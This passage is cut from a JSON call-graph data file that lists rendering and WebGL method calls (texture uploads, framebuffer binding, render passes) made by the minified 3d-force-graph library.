"source": "static/js/3d-force-graph-1.73.4.min.js", "target": "traverseVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pushLight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pushShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setupLights"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "traverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "compile"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isReady"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pushLight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pushShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromMatrixPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeBoundingSphere"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setupLightsView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setGlobalState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "viewport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setMask"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setMask"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setPolygonOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getClearColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getClearAlpha"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setClearColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setupLightsView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setGlobalState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMultisampleRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateRenderTargetMipmap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMultisampleRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateRenderTargetMipmap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setClearColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onBeforeRender"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyMatrices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getNormalMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onBeforeRender"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderBufferDirect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderBufferDirect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderBufferDirect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onAfterRender"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameters"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getProgramCacheKey"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getUniforms"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onBeforeCompile"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "acquireProgram"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getUniforms"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "seqWithValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAnimationLoop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAnimationLoop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrixWorld"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateCamera"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getCamera"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onBeforeRender"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyMatrices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getDepthSensingMesh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "finish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasDepthSensing"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addToRenderList"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "beginShadows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "endShadows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMultisampleRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateRenderTargetMipmap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onAfterRender"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "resetDefaultState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setGlobalState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setupRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rebindTextures"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setupDepthRenderbuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "useMultisampledRTT"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "drawBuffers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "viewport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "scissor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setScissorTest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "framebufferTexture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "framebufferTextureLayer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "readPixels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bufferData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "readPixels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fenceSync"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBufferSubData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "deleteSync"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTexture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copyTexSubImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unbindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTexture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texSubImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "compressedTexSubImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texSubImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "generateMipmap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unbindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "convert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTexture3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTexture2DArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texSubImage3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "compressedTexSubImage3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texSubImage3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pixelStorei"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "generateMipmap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unbindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setupRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTextureCube"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTexture3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTexture2DArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTexture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "unbindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 